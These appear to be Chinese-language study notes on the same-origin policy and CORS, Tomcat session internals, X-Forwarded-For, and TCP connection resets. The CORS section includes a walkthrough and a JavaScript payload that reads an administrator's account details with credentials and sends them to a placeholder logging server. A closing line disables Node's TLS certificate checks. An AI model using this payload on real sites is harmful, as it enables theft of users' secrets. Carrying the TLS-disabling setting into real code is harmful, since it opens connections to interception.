




## CORS

### 什么是同源策略？

同源策略是一种 Web 浏览器安全机制，旨在防止网站相互攻击。

同源策略限制一个源上的脚本访问另一个源上的数据。源由 URI 方案、域和端口号组成。

| 访问的 URL                                | 允许访问？               |
| :---------------------------------------- | :----------------------- |
| `http://normal-website.com/example/`      | 是：相同的方案、域和端口 |
| `http://normal-website.com/example2/`     | 是：相同的方案、域和端口 |
| `https://normal-website.com/example/`     | 否：不同的方案和端口     |
| `http://en.normal-website.com/example/`   | 否：不同的域             |
| `http://www.normal-website.com/example/`  | 否：不同的域             |
| `http://normal-website.com:8080/example/` | 否：不同的端口*          |

*Internet Explorer 将允许此访问，因为 IE 在应用同源策略时不考虑端口号。

### 为什么需要同源策略？

当浏览器从一个来源向另一个来源发送 HTTP 请求时，与另一个域相关的任何 cookie（包括身份验证会话 cookie）也作为请求的一部分发送。这意味着响应将在用户会话中生成，并包含特定于用户的任何相关数据。如果没有同源策略，如果你访问了一个恶意网站，它就可以从 GMail 中读取你的电子邮件，从 Facebook 中读取私人消息等。

### 同源策略是如何实现的？

同源策略通常控制 JavaScript 代码对跨域加载的内容的访问。通常允许页面资源的跨源加载。例如，SOP 允许通过标签嵌入图像，通过\<video>标签嵌入媒体，JavaScript 包含在\<script>标签中。但是，虽然页面可以加载这些外部资源，但页面上的任何 JavaScript 都无法读取这些资源的内容。

同源策略有多种例外情况：

1. 有些对象是跨域可写但不可读的，例如来自 iframe 或新窗口的location对象或location.href属性。

2. 有些对象是跨域可读但不可写的，例如对象length的属性window（其中存储了页面上正在使用的帧数）和属性closed。
3. 函数replace一般可以在对象上调用跨域location。
4. 您可以跨域调用某些函数。例如，您可以在新窗口中调用函数close,blur和。focus该postMessage函数也可以在 iframe 和新窗口上调用，以便将消息从一个域发送到另一个域。
5. 由于遗留要求，同源策略在处理 cookie 时更加宽松，因此它们通常可以从站点的所有子域访问，即使每个子域在技术上都是不同的来源。您可以使用 cookie 标志部分减轻这种风险HttpOnly。

### CORS配置问题引起的漏洞

许多现代网站使用 CORS 来允许从子域和受信任的第三方进行访问。他们的 CORS 实施可能包含错误或过于宽松以确保一切正常，这可能会导致可利用的漏洞。

例子: 

1. 启动burp并监听端口8080

2. 设置浏览器代理指向8080

3. 

   查询到请求token时带有Access-Control-Allow-Credentials,说明该程序是使用cors的，同时允许携带cookie信息。

4. 向相同的地方发送一个请求，带上随便一个Origin地址，发现该程序本质上是不检查origin的情况下动态的获取origin并返回，所以允许互联网上任意站点访问其任意公共资源。

5. 编写以下程序并让网站管理员的浏览器执行

   ```js
   <script>
       var req = new XMLHttpRequest();
       req.onload = reqListener;
       req.open('get','网站地址/accountDetails',true);
       req.withCredentials = true;
       req.send();
       function reqListener() {
           location='你的记录服务器/log?key='+this.responseText;
       };
   </script>
   ```
   
6. 

   就能发现管理员已经将秘钥发送到自己的网站了。(网站地址需要区分http和https,否则会报404错误)

## Tomcat Session

### Tomcat 中 Cookie 的解析

在 Tomcat 8.0.5 中 Cookie 的解析是通过内部的函数 processCookies() 来进行操作的(其实就是将Http header 的内容直接赋值给 Cookie 对象, Cookie在Header中找name是"Cookie"的数据, 拿出来进行解析), 我们这里主要从 jsessionid 的角度来看一下整个过程是如何触发的, 我们直接看函数 CoyoteAdapter.postParseRequest() 中解析 jsessionId 那部分

```java
// 尝试从 URL, Cookie, SSL 回话中获取请求的 ID, 并将 mapRequired 设置为 false
String sessionID = null;
// 1. 是否支持通过 URI 尾缀 JSessionId 的方式来追踪 Session 的变化 (默认是支持的)
if (request.getServletContext().getEffectiveSessionTrackingModes().contains(SessionTrackingMode.URL)) {
    // 2. 从 URI 尾缀的参数中拿取 jsessionId 的数据 (SessionConfig.getSessionUriParamName 是获取对应cookie的名字, 默认 jsessionId, 可以在 web.xml 里面进行定义)
    sessionID = request.getPathParameter( SessionConfig.getSessionUriParamName(request.getContext()));
    if (sessionID != null) { 
        // 3. 若从 URI 里面拿取了 jsessionId, 则直接进行赋值给 request
        request.setRequestedSessionId(sessionID);
        request.setRequestedSessionURL(true);
    }
}

// Look for session ID in cookies and SSL session
// 4. 通过 cookie 里面获取 JSessionId 的值
parseSessionCookiesId(req, request);   
// 5. 在 SSL 模式下获取 JSessionId 的值                             
parseSessionSslId(request);                                         

/**
 * Parse session id in URL.
 */
protected void parseSessionCookiesId(org.apache.coyote.Request req, Request request) {

    // If session tracking via cookies has been disabled for the current
    // context, don't go looking for a session ID in a cookie as a cookie
    // from a parent context with a session ID may be present which would
    // overwrite the valid session ID encoded in the URL
    Context context = request.getMappingData().context;
    // 1. Tomcat 是否支持 通过 cookie 机制 跟踪 session
    if (context != null && !context.getServletContext()
            .getEffectiveSessionTrackingModes().contains(
                    SessionTrackingMode.COOKIE)) {                      
        return;
    }

    // Parse session id from cookies
     // 2. 获取 Cookie的实际引用对象 (PS: 这里还没有触发 Cookie 解析, 也就是 serverCookies 里面是空数据, 数据还只是存储在 http header 里面)
    Cookies serverCookies = req.getCookies(); 
    // 3. 就在这里出发了 Cookie 解析Header里面的数据 (PS: 其实就是 轮训查找 Header 里面那个 name 是 Cookie 的数据, 拿出来进行解析)    
    int count = serverCookies.getCookieCount();                         
    if (count <= 0) {
        return;
    }

    // 4. 获取 sessionId 的名称 JSessionId
    String sessionCookieName = SessionConfig.getSessionCookieName(context); 

    for (int i = 0; i < count; i++) {
        // 5. 轮询所有解析出来的 Cookie
        ServerCookie scookie = serverCookies.getCookie(i);      
        // 6. 比较 Cookie 的名称是否是 jsessionId        
        if (scookie.getName().equals(sessionCookieName)) {              
            logger.info("scookie.getName().equals(sessionCookieName)");
            logger.info("Arrays.asList(Thread.currentThread().getStackTrace()):" + Arrays.asList(Thread.currentThread().getStackTrace()));
            // Override anything requested in the URL
            // 7. 是否 jsessionId 还没有解析 (并且只将第一个解析成功的值 set 进去)
            if (!request.isRequestedSessionIdFromCookie()) {            
                // Accept only the first session id cookie
                // 8. 将MessageBytes转成 char
                convertMB(scookie.getValue());        
                // 9. 设置 jsessionId 的值                
                request.setRequestedSessionId(scookie.getValue().toString());
                request.setRequestedSessionCookie(true);
                request.setRequestedSessionURL(false);
                if (log.isDebugEnabled()) {
                    log.debug(" Requested cookie session id is " +
                        request.getRequestedSessionId());
                }
            } else {
                // 10. 若 Cookie 里面存在好几个 jsessionid, 则进行覆盖 set 值
                if (!request.isRequestedSessionIdValid()) {             
                    // Replace the session id until one is valid
                    convertMB(scookie.getValue());
                    request.setRequestedSessionId
                        (scookie.getValue().toString());
                }
            }
        }
    }

}
```

上面的步骤其实就是依次从 URI, Cookie, SSL 里面进行 jsessionId 的解析, 其中从Cookie里面进行解析是最常用的, 而且 就这个Tomcat版本里面, 从cookie里面解析 jsessionid 藏得比较深, 是由 Cookie.getCookieCount() 来进行触发的, 整个解析的过程其实就是将线程 header 里面的数据依次遍历, 找到 name="Cookie"的数据,拿出来解析字符串(这里就不再叙述了); 程序到这里其实若客户端传 jsessionId 的话, 则服务端已经将其解析出来, 并且set到Request对象里面了, 但是 Session 对象还没有触发创建, 最多也就是查找一下 jsessionId 对应的 Session 在 Manager 里面是否存在。

### tomcat session 设计分析

tomcat session 组件图如下所示，其中 `Context` 对应一个 webapp 应用，每个 webapp 有多个 `HttpSessionListener`， 并且每个应用的 session 是独立管理的，而 session 的创建、销毁由 `Manager` 组件完成，它内部维护了 N 个 `Session` 实例对象。在前面的文章中，我们分析了 `Context` 组件，它的默认实现是 `StandardContext`，它与 `Manager` 是一对一的关系，`Manager` 创建、销毁会话时，需要借助 `StandardContext` 获取 `HttpSessionListener` 列表并进行事件通知，而 `StandardContext` 的后台线程会对 `Manager` 进行过期 Session 的清理工作



`org.apache.catalina.Manager` 接口的主要方法如下所示，它提供了 `Context`、`org.apache.catalina.SessionIdGenerator`的 getter/setter 接口，以及创建、添加、移除、查找、遍历 `Session` 的 API 接口，此外还提供了 `Session` 持久化的接口（load/unload） 用于加载/卸载会话信息，当然持久化要看不同的实现类

tomcat8.5 提供了 4 种实现，默认使用 `StandardManager`，tomcat 还提供了集群会话的解决方案，但是在实际项目中很少运用

- StandardManager：Manager 默认实现，在内存中管理 session，宕机将导致 session 丢失；但是当调用 Lifecycle 的 start/stop 接口时，将采用 jdk 序列化保存 Session 信息，因此当 tomcat 发现某个应用的文件有变更进行 reload 操作时，这种情况下不会丢失 Session 信息
- DeltaManager：增量 Session 管理器，用于Tomcat集群的会话管理器，某个节点变更 Session 信息都会同步到集群中的所有节点，这样可以保证 Session 信息的实时性，但是这样会带来较大的网络开销
- BackupManager：用于 Tomcat 集群的会话管理器，与DeltaManager不同的是，某个节点变更 Session 信息的改变只会同步给集群中的另一个 backup 节点
- PersistentManager：当会话长时间空闲时，将会把 Session 信息写入磁盘，从而限制内存中的活动会话数量；此外，它还支持容错，会定期将内存中的 Session 信息备份到磁盘

### tomcat中session的创建

```java
// 获取 request 对应的 session
public HttpSession getSession() {
    // 这里就是 通过 managerBase.sessions 获取 Session
    Session session = doGetSession(true); 
    if (session == null) {
        return null;
    }
    return session.getSession();
}

// create 代表是否创建 StandardSession
protected Session doGetSession(boolean create) {              

    // There cannot be a session if no context has been assigned yet
    // 1. 检验 StandardContext
    if (context == null) {
        return (null);                                           
    }

    // Return the current session if it exists and is valid
     // 2. 校验 Session 的有效性
    if ((session != null) && !session.isValid()) {              
        session = null;
    }
    if (session != null) {
        return (session);
    }

    // Return the requested session if it exists and is valid
    Manager manager = null;
    if (context != null) {
        //拿到StandardContext 中对应的StandardManager，Context与 Manager 是一对一的关系
        manager = context.getManager();
    }
    if (manager == null)
     {
        return (null);      // Sessions are not supported
    }
    if (requestedSessionId != null) {
        try {        
            // 3. 通过 managerBase.sessions 获取 Session
            // 4. 通过客户端的 sessionId 从 managerBase.sessions 来获取 Session 对象
            session = manager.findSession(requestedSessionId);   
        } catch (IOException e) {
            session = null;
        }
         // 5. 判断 session 是否有效
        if ((session != null) && !session.isValid()) {          
            session = null;
        }
        if (session != null) {
            // 6. session access +1
            session.access();                                    
            return (session);
        }
    }

    // Create a new session if requested and the response is not committed
    // 7. 根据标识是否创建 StandardSession ( false 直接返回)
    if (!create) {
        return (null);                                           
    }
    // 当前的 Context 是否支持通过 cookie 的方式来追踪 Session
    if ((context != null) && (response != null) && context.getServletContext().getEffectiveSessionTrackingModes().contains(SessionTrackingMode.COOKIE) && response.getResponse().isCommitted()) {
        throw new IllegalStateException
          (sm.getString("coyoteRequest.sessionCreateCommitted"));
    }

    // Attempt to reuse session id if one was submitted in a cookie
    // Do not reuse the session id if it is from a URL, to prevent possible
    // phishing attacks
    // Use the SSL session ID if one is present.
    // 8. 到这里其实是没有找到 session, 直接创建 Session 出来
    if (("/".equals(context.getSessionCookiePath()) && isRequestedSessionIdFromCookie()) || requestedSessionSSL ) {
        session = manager.createSession(getRequestedSessionId()); // 9. 从客户端读取 sessionID, 并且根据这个 sessionId 创建 Session
    } else {
        session = manager.createSession(null);
    }

    // Creating a new session cookie based on that session
    if ((session != null) && (getContext() != null)&& getContext().getServletContext().getEffectiveSessionTrackingModes().contains(SessionTrackingMode.COOKIE)) {
        // 10. 根据 sessionId 来创建一个 Cookie
        Cookie cookie = ApplicationSessionCookieConfig.createSessionCookie(context, session.getIdInternal(), isSecure());
        // 11. 最后在响应体中写入 cookie
        response.addSessionCookieInternal(cookie);              
    }

    if (session == null) {
        return null;
    }
    // 12. session access 计数器 + 1
    session.access();                                          
    return session;
}
```

我们看看 manager.createSession(null);

```java
public abstract class ManagerBase extends LifecycleMBeanBase implements Manager {
    //Manager管理着当前Context的所有session
    protected Map<String, Session> sessions = new ConcurrentHashMap<>();
    @Override
    public Session findSession(String id) throws IOException {
        if (id == null) {
            return null;
        }
        //通过JssionId获取session
        return sessions.get(id);
    }
    
    public Session createSession(String sessionId) {
        // 1. 判断 单节点的 Session 个数是否超过限制
        if ((maxActiveSessions >= 0) && (getActiveSessions() >= maxActiveSessions)) {      
            rejectedSessions++;
            throw new TooManyActiveSessionsException(
                    sm.getString("managerBase.createSession.ise"),
                    maxActiveSessions);
        }

        // Recycle or create a Session instance
        // 创建一个 空的 session
        // 2. 创建 Session
        Session session = createEmptySession();                     

        // Initialize the properties of the new session and return it
        // 初始化空 session 的属性
        session.setNew(true);
        session.setValid(true);
        session.setCreationTime(System.currentTimeMillis());
        // 3. StandardSession 最大的默认 Session 激活时间
        session.setMaxInactiveInterval(this.maxInactiveInterval); 
        String id = sessionId;
        // 若没有从 client 端读取到 jsessionId
        if (id == null) {      
            // 4. 生成 sessionId (这里通过随机数来生成)    
            id = generateSessionId();                              
        }
        //这里会将session存入Map<String, Session> sessions = new ConcurrentHashMap<>();
        session.setId(id);
        sessionCounter++;

        SessionTiming timing = new SessionTiming(session.getCreationTime(), 0);
        synchronized (sessionCreationTiming) {
            // 5. 每次创建 Session 都会创建一个 SessionTiming, 并且 push 到 链表 sessionCreationTiming 的最后
            sessionCreationTiming.add(timing); 
            // 6. 并且将 链表 最前面的节点删除        
            sessionCreationTiming.poll();                         
        }      
        // 那这个 sessionCreationTiming 是什么作用呢, 其实 sessionCreationTiming 是用来统计 Session的新建及失效的频率 (好像Zookeeper 里面也有这个的统计方式)    
        return (session);
    }
    
    @Override
    public void add(Session session) {
        //将创建的Seesion存入Map<String, Session> sessions = new ConcurrentHashMap<>();
        sessions.put(session.getIdInternal(), session);
        int size = getActiveSessions();
        if( size > maxActive ) {
            synchronized(maxActiveUpdateLock) {
                if( size > maxActive ) {
                    maxActive = size;
                }
            }
        }
    }
}

@Override
public void setId(String id) {
    setId(id, true);
}

@Override
public void setId(String id, boolean notify) {

    if ((this.id != null) && (manager != null))
        manager.remove(this);

    this.id = id;

    if (manager != null)
        manager.add(this);

    if (notify) {
        tellNew();
    }
}

其主要的步骤就是:

1. 若 request.Session != null, 则直接返回 (说明同一时刻之前有其他线程创建了Session, 并且赋值给了 request)

2. 若 requestedSessionId != null, 则直接通过 manager 来进行查找一下, 并且判断是否有效

3. 调用 manager.createSession 来创建对应的Session，并将Session存入Manager的Map中

4. 根据 SessionId 来创建 Cookie, 并且将 Cookie 放到 Response 里面

5. 直接返回 Session
```

### Session清理

#### Background 线程

前面我们分析了 Session 的创建过程，而 Session 会话是有时效性的，下面我们来看下 tomcat 是如何进行失效检查的。在分析之前，我们先回顾下 `Container` 容器的 Background 线程。

tomcat 所有容器组件，都是继承至 `ContainerBase` 的，包括 `StandardEngine`、`StandardHost`、`StandardContext`、`StandardWrapper`，而 `ContainerBase` 在启动的时候，如果 `backgroundProcessorDelay` 参数大于 0 则会开启 `ContainerBackgroundProcessor` 后台线程，调用自己以及子容器的 `backgroundProcess` 进行一些后台逻辑的处理，和 `Lifecycle` 一样，这个动作是具有传递性的，也就



```java
ContainerBase.java

protected synchronized void startInternal() throws LifecycleException {
    // other code......
    // 开启ContainerBackgroundProcessor线程用于处理子容器，默认情况下backgroundProcessorDelay=-1，不会启用该线程
    threadStart();
}

protected class ContainerBackgroundProcessor implements Runnable {
    public void run() {
        // threadDone 是 volatile 变量，由外面的容器控制
        while (!threadDone) {
            try {
                Thread.sleep(backgroundProcessorDelay * 1000L);
            } catch (InterruptedException e) {
                // Ignore
            }
            if (!threadDone) {
                processChildren(ContainerBase.this);
            }
        }
    }

    protected void processChildren(Container container) {
        container.backgroundProcess();
        Container[] children = container.findChildren();
        for (int i = 0; i < children.length; i++) {
            // 如果子容器的 backgroundProcessorDelay 参数小于0，则递归处理子容器
            // 因为如果该值大于0，说明子容器自己开启了线程处理，因此父容器不需要再做处理
            if (children[i].getBackgroundProcessorDelay() <= 0) {
                processChildren(children[i]);
            }
        }
    }
}
```

### Session 检查

`backgroundProcessorDelay` 参数默认值为 `-1`，单位为秒，即默认不启用后台线程，而 tomcat 的 Container 容器需要开启线程处理一些后台任务，比如监听 jsp 变更、tomcat 配置变动、Session 过期等等，因此 `StandardEngine` 在构造方法中便将 `backgroundProcessorDelay` 参数设为 10（当然可以在 `server.xml` 中指定该参数），即每隔 10s 执行一次。那么这个线程怎么控制生命周期呢？我们注意到 `ContainerBase` 有个 `threadDone` 变量，用 `volatile` 修饰，如果调用 Container 容器的 stop 方法该值便会赋值为 false，那么该后台线程也会退出循环，从而结束生命周期。另外，有个地方需要注意下，父容器在处理子容器的后台任务时，需要判断子容器的 `backgroundProcessorDelay` 值，只有当其小于等于 0 才进行处理，因为如果该值大于0，子容器自己会开启线程自行处理，这时候父容器就不需要再做处理了

前面分析了容器的后台线程是如何调度的，下面我们重点来看看 webapp 这一层，以及 `StandardManager` 是如何清理过期会话的。`StandardContext` 重写了 `backgroundProcess` 方法，除了对子容器进行处理之外，还会对一些缓存信息进行清理，关键代码如下所示：

```java
StandardContext.java

@Override
public void backgroundProcess() {
    if (!getState().isAvailable())
        return;
    // 热加载 class，或者 jsp
    Loader loader = getLoader();
    if (loader != null) {
        loader.backgroundProcess();
    }
    // 清理过期Session
    Manager manager = getManager();
    if (manager != null) {
        manager.backgroundProcess();
    }
    // 清理资源文件的缓存
    WebResourceRoot resources = getResources();
    if (resources != null) {
        resources.backgroundProcess();
    }
    // 清理对象或class信息缓存
    InstanceManager instanceManager = getInstanceManager();
    if (instanceManager instanceof DefaultInstanceManager) {
        ((DefaultInstanceManager)instanceManager).backgroundProcess();
    }
    // 调用子容器的 backgroundProcess 任务
    super.backgroundProcess();
}
```


`StandardContext` 重写了 `backgroundProcess` 方法，在调用子容器的后台任务之前，还会调用 `Loader`、`Manager`、`WebResourceRoot`、`InstanceManager` 的后台任务，这里我们只关心 `Manager` 的后台任务。弄清楚了 `StandardManager` 的来龙去脉之后，我们接下来分析下具体的逻辑。

`StandardManager` 继承至 `ManagerBase`，它实现了主要的逻辑，关于 Session 清理的代码如下所示。backgroundProcess 默认是每隔10s调用一次，但是在 `ManagerBase` 做了取模处理，默认情况下是 60s 进行一次 Session 清理。tomcat 对 Session 的清理并没有引入时间轮，因为对 Session 的时效性要求没有那么精确，而且除了通知 `SessionListener`。

```java
ManagerBase.java

public void backgroundProcess() {
    // processExpiresFrequency 默认值为 6，而backgroundProcess默认每隔10s调用一次，也就是说除了任务执行的耗时，每隔 60s 执行一次
    count = (count + 1) % processExpiresFrequency;
    if (count == 0) // 默认每隔 60s 执行一次 Session 清理
        processExpires();
}

/**
 * 单线程处理，不存在线程安全问题
 */
public void processExpires() {
    long timeNow = System.currentTimeMillis();
    Session sessions[] = findSessions();    // 获取所有的 Session
    int expireHere = 0 ;
    for (int i = 0; i < sessions.length; i++) {
        // Session 的过期是在 isValid() 里面处理的
        if (sessions[i]!=null && !sessions[i].isValid()) {
            expireHere++;
        }
    }
    long timeEnd = System.currentTimeMillis();
    // 记录下处理时间
    processingTime += ( timeEnd - timeNow );
}
```

### 清理过期 Session

在上面的代码，我们并没有看到太多的过期处理，只是调用了 `sessions[i].isValid()`，原来清理动作都在这个方法里面处理的，相当的隐晦。在 `StandardSession#isValid()` 方法中，如果 `now - thisAccessedTime >= maxInactiveInterval`则判定当前 Session 过期了，而这个 `thisAccessedTime` 参数在每次访问都会进行更新

```java
public boolean isValid() {
    // other code......
    // 如果指定了最大不活跃时间，才会进行清理，这个时间是 Context.getSessionTimeout()，默认是30分钟
    if (maxInactiveInterval > 0) {
        int timeIdle = (int) (getIdleTimeInternal() / 1000L);
        if (timeIdle >= maxInactiveInterval) {
            expire(true);
        }
    }
    return this.isValid;
}
```

而 `expire` 方法处理的逻辑较繁锁，下面我用伪代码简单地描述下核心的逻辑，由于这个步骤可能会有多线程进行操作，因此使用 `synchronized` 对当前 Session 对象加锁，还做了双重校验，避免重复处理过期 Session。它还会向 Container 容器发出事件通知，还会调用 `HttpSessionListener` 进行事件通知，这个也就是我们 web 应用开发的 `HttpSessionListener` 了。由于 `Manager` 中维护了 `Session` 对象，因此还要将其从 `Manager` 移除。Session 最重要的功能就是存储数据了，可能存在强引用，而导致 Session 无法被 gc 回收，因此还要移除内部的 key/value 数据。由此可见，tomcat 编码的严谨性了，稍有不慎将可能出现并发问题，以及出现内存泄露

```java
public void expire(boolean notify) {
    //1、校验 isValid 值，如果为 false 直接返回，说明已经被销毁了
    synchronized (this) {   // 加锁
        //2、双重校验 isValid 值，避免并发问题
        Context context = manager.getContext();
        if (notify) {   
            Object listeners[] = context.getApplicationLifecycleListeners();
            HttpSessionEvent event = new HttpSessionEvent(getSession());
            for (int i = 0; i < listeners.length; i++) {
            //3、判断是否为 HttpSessionListener，不是则继续循环
            //4、向容器发出Destory事件，并调用 HttpSessionListener.sessionDestroyed() 进行通知
            context.fireContainerEvent("beforeSessionDestroyed", listener);
            listener.sessionDestroyed(event);
            context.fireContainerEvent("afterSessionDestroyed", listener);
        }
        //5、从 manager 中移除该  session
        //6、向 tomcat 的 SessionListener 发出事件通知，非 HttpSessionListener
        //7、清除内部的 key/value，避免因为强引用而导致无法回收 Session 对象
    }
}
```

由前面的分析可知，tomcat 会根据时间戳清理过期 Session，那么 tomcat 又是如何更新这个时间戳呢？ tomcat 在处理完请求之后，会对 `Request` 对象进行回收，并且会对 Session 信息进行清理，而这个时候会更新 `thisAccessedTime`、`lastAccessedTime` 时间戳。此外，我们通过调用 `request.getSession()` 这个 API 时，在返回 Session 时会调用 `Session#access()` 方法，也会更新 `thisAccessedTime` 时间戳。这样一来，每次请求都会更新时间戳，可以保证 Session 的鲜活时间。

```java
org.apache.catalina.connector.Request.java

protected void recycleSessionInfo() {
    if (session != null) {  
        session.endAccess();    // 更新时间戳
    }
    // 回收 Request 对象的内部信息
    session = null;
    requestedSessionCookie = false;
    requestedSessionId = null;
    requestedSessionURL = false;
    requestedSessionSSL = false;
}
```

**org.apache.catalina.session.StandardSession.java**

```java
public void endAccess() {
    isNew = false;
    if (LAST_ACCESS_AT_START) {     // 可以通过系统参数改变该值，默认为false
        this.lastAccessedTime = this.thisAccessedTime;
        this.thisAccessedTime = System.currentTimeMillis();
    } else {
        this.thisAccessedTime = System.currentTimeMillis();
        this.lastAccessedTime = this.thisAccessedTime;
    }
}

public void access() {
    this.thisAccessedTime = System.currentTimeMillis();
}
```

## X-Forwarded-For

通过名字就知道，X-Forwarded-For 是一个 HTTP 扩展头部。HTTP/1.1（RFC 2616）协议并没有对它的定义，它最开始是由 [Squid](https://so.csdn.net/so/search?q=Squid&spm=1001.2101.3001.7020) 这个缓存代理软件引入，用来表示 HTTP 请求端真实 IP。如今它已经成为事实上的标准，被各大 HTTP 代理、负载均衡等转发服务广泛使用，并被写入 [RFC 7239](http://tools.ietf.org/html/rfc7239)（Forwarded HTTP Extension）标准之中。X-Forwarded-For 请求头格式非常简单，就这样：

```cobol
X-Forwarded-For: client, proxy1, proxy2 
```

可以看到，XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。

如果一个 HTTP 请求到达服务器之前，经过了三个代理 Proxy1、Proxy2、Proxy3，IP 分别为 IP1、IP2、IP3，用户真实 IP 为 IP0，那么按照 XFF 标准，服务端最终会收到以下信息：

```cobol
X-Forwarded-For: IP0, IP1, IP2
```

Proxy3 直连服务器，它会给 XFF 追加 IP2，表示它是在帮 Proxy2 转发请求。列表中并没有 IP3，IP3 可以在服务端通过 Remote Address 字段获得。我们知道 HTTP 连接基于 TCP 连接，HTTP 协议中没有 IP 的概念，Remote Address 来自 TCP 连接，表示与服务端建立 TCP 连接的设备 IP，在这个例子里就是 IP3。

Remote Address 无法伪造，因为建立 TCP 连接需要三次握手，如果伪造了源 IP，无法建立 TCP 连接，更不会有后面的 HTTP 请求。不同语言获取 Remote Address 的方式不一样，例如 php 是 $_SERVER["REMOTE_ADDR"]，[Node](https://so.csdn.net/so/search?q=Node&spm=1001.2101.3001.7020).js 是 req.connection.remoteAddress，但原理都一样。

总结

1、三种IP具体含义：

- Remote Address：他是TCP中的概念，是无法伪造的，在应用程序中获取到的Remote Address值，是直接和应用服务器建立TCP连接的IP，可能是用户真实ip（用户直接访问应用服务器时），也可能是代理服务器（通过nginx负载均衡代理时）；

- X-Real-IP：它不是标准规范，其值是与代理服务器建立TCP连接的IP，该值可能是真实ip，也可能是其他代理服务器IP；
- X-Forwarded-For：它是http的一个标准规范，其值是X-Forwarded-For: client, proxy1, proxy2... 由于可以伪造，所以在一些安全场景下获取用户真实ip不可靠。

2、如何获取用户真实IP：

- 经过上面讨论其实不难得出结论，要获取用户真实IP，在安全情况下是比较难的。通常是在客户端请求时带上自己的ip。

## Connection Reset

TCP建立连接时需要三次握手，在释放连接需要四次挥手；例如三次握手的过程如下：

1. 第一次握手：客户端发送syn包（syn=j）到服务器，并进入SYN_SENT状态，等待服务器确认；
2. 第二次握手：服务器收到syn包，并会确认客户的SYN（ack=j+1），同时自己也发送一个SYN包（syn=k），即SYN+ACK包，此时服务器进入SYN_RECV状态；
3. 第三次握手：客户端收到服务器的SYN+ACK包，向服务器发送确认包ACK(ack=k+1），此包发送完毕，客户端和服务器进入ESTABLISHED（TCP连接成功）状态，完成三次握手。

可以看到握手时会在客户端和服务器之间传递一些TCP头信息，比如ACK标志、SYN标志以及挥手时的FIN标志等。

除了以上这些常见的标志头信息，还有另外一些标志头信息，比如推标志PSH、复位标志RST等。其中复位标志RST的作用就是“复位相应的TCP连接”。

前面说到出现“Connection reset”的原因是服务器关闭了Connection[调用了Socket.close()方法]。大家可能有疑问了：服务器关闭了Connection为什么会返回“RST”而不是返回“FIN”标志。原因在于Socket.close()方法的语义和TCP的“FIN”标志语义不一样：发送TCP的“FIN”标志表示我不再发送数据了，而Socket.close()表示我不在发送也不接受数据了。问题就出在“我不接受数据” 上，如果此时客户端还往服务器发送数据，服务器内核接收到数据，但是发现此时Socket已经close了，则会返回“RST”标志给客户端。当然，此时客户端就会提示：“Connection reset”。详细说明可以参考oracle的有关文档：http://docs.oracle.com/javase/1.5.0/docs/guide/net/articles/connection_release.html。

此外啰嗦一下，另外还有一种比较常见的错误“Connection reset by peer”，该错误和“Connection reset”是有区别的：

- 服务器返回了“RST”时，如果此时客户端正在从Socket套接字的输出流中读数据则会提示Connection reset”；
- 服务器返回了“RST”时，如果此时客户端正在往Socket套接字的输入流中写数据则会提示“Connection reset by peer”。

前面谈到了导致“Connection reset”的原因，而具体的解决方案有如下几种：

- 出错了重试；
- 客户端和服务器统一使用TCP长连接；
- 客户端和服务器统一使用TCP短连接。


## node关闭证书验证

export NODE_TLS_REJECT_UNAUTHORIZED=0

## 向SpringBoot项目发送不存在的URL的时候，SpringBoot会将路径改为/error

